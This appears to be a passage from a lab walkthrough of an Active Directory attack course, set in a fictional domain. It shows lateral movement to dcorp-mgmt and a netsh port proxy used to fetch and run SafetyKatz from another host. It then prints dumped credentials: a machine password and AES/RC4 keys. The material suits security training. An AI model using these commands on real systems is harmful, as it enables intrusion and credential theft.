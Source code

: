 <figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

We got credentials for the srvadmin user in clear-text. Start a cmd process using runas (because we've cleartext credentials):

```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Check if srvadmin has admin privileges on any other machine:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose
```

* dcorp-adminsrv
* dcorp-mgmt

We have local admin access on the dcorp-mgmt server as srvadmin and we already know a session of svcadmin is present on that machine.

Let's use SafetyKatz to extract credentials from the machine, first to all copy the Loader.exe to dcorp-mgmt:

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

add the portforwarding and extract credentials:

```powershell
winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67"
winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::Evasive-keys" "exit"
```

```powershell
Authentication Id : 0 ; 6198905 (00000000:005e9679)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/11/2025 4:24:00 AM
SID               : S-1-5-96-0-2

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(`?yW`E8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41`*/$^4+EeZ07?zF2Z3`:[Jd*F/z_P`p6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 6155000 (00000000:005deaf8)
Session           : Interactive from 0
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:16:32 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120
```